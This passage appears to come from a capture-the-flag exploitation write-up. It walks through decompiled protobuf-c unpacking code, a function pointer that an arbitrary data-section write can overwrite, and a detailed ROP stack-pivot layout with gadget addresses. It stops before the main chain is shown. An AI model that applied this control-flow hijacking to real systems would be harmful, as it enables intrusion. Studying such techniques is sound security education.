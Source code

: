 ```C
}
```

We can see that it calls `protobuf_unpack`, or `FUN_404b36`, with the first argument of zero. Then:

```C
void protobuf_deserialize_maybe(undefined8 param_1,undefined8 param_2,undefined8 param_3)
{
  // ...
  internal_protobuf_unpack(&DAT_00455740,param_1,param_2,param_3);
  // ...
}
```

So this is also calling `internal_protobuf_unpack`, or `FUN_408490` with its second argument being 0:

```C
int ** internal_protobuf_unpack
                 (int *param_1,undefined **param_2,ulong param_3,byte *param_4)
{
  // just some unimportant checks on some constant stuff in rodata that are passed in param_1
  lVar29 = *(long *)(param_1 + 0xe);
  if (*param_1 != 0x28aaeef9) {
    __assert_fail("(desc)->magic == 0x28aaeef9","protobuf-c/protobuf-c.c",0xa92,
                  "protobuf_c_message_unpack");
  }
  // if the second argument is 0, it will set it to 0x6760b0
  if ((code **)param_2 == (code **)0x0) {
    param_2 = &PTR_FUN_006760b0;
  }
  // calling the function pointer written at 0x6760b0 with rdi being the value written at 0x6760c0
  __s = (int **)(*(code *)*param_2)(((code **)param_2)[2]);
  // ....
```

This is a huge function, but we can see that right in the beginning, it will load a function pointer from `0x6760b0` in the data section, and then loads the first argument for this function from `0x6760c0` into `rdi`, and calls this function. We have arbitrary write in the data section so we can overwrite this function pointer and its argument!!!

The gadget `push rsi ; idiv bh ; jmp qword ptr [rsi + 0xf]` is a very useful gadget to do stack pivoting. However, we can't control `rsi` yet. By breaking right before the indirect call in `internal_protobuf_unpack` and observing the values of the registers, we can see that both `rax` and `rbx` have the value `0x6760b0`, and rdi has whatever value we write at `0x6760c0`. So by using `mov rsi, qword ptr [rax + 0x10] ; call qword ptr [rax + 8]` as another gadget, we can mov the value at `0x6760c0` into `rsi` as well. Then, also note that there is an `idiv bh` instruction in the original stack-pivoting gadget. Apparently, `idiv bh` will fail with an arithmetic exception if both of `ah` and `al` are non-zero. So we will use the gadget `and ah, byte ptr [rdi - 1] ; jmp qword ptr [rsi - 0x70]` to make `ah` zero and avoid terminating.

This is the stack pivoting plan:

```
initial rax -> 0x6760b0: 0x00000000004111d1 => mov rsi, qword ptr [rax + 0x10] ; call qword ptr [rax + 8]
               0x6760b8: 0x0000000000426eda => and ah, byte ptr [rdi - 1] ; jmp qword ptr [rsi - 0x70]
               0x6760c0: 0x676138 => initial rdi value
               0x6760c8: 0x0000000000452b16 => push rsi ; idiv bh ; jmp qword ptr [rsi + 0xf]
               0x6760d0: 0x0
               0x6760d8: 0x0
               ....
               0x676130: 0x0
               0x676138: 0xf bytes of junk and then 0x0000000000404cb1 => pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
               ....
               0x676150: main ROP chain starts here
```